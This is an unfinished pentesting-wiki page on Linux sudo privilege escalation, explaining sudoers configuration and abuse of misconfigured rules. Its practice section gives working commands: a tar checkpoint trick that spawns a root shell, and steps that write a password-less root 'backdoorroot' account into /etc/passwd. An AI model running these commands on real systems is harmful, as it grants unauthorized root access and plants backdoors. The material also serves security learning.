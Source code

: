 # 🛠️ SUDO

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

`sudo` \(Super User DO\) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user \(by default, the superuser\).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers \( 😯_I know right_🧠 \). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 \(read-only\) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.

![](../../../.gitbook/assets/sudoers_config.png)

## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure misconfiguration, or by exploiting the program's vulnerabilities.

### Configuration

#### Default permissions

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following \(default config for a new sudoer\).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo <program>`.

#### Living off the land

While, the configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

#### Escalation tricks

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### Vulnerabilities

#### CVE-2019-14287

//TODO

#### CVE-2021-3156

//TODO

## References

{% embed url="https://gtfobins.github.io/\#+sudo" caption="" %}


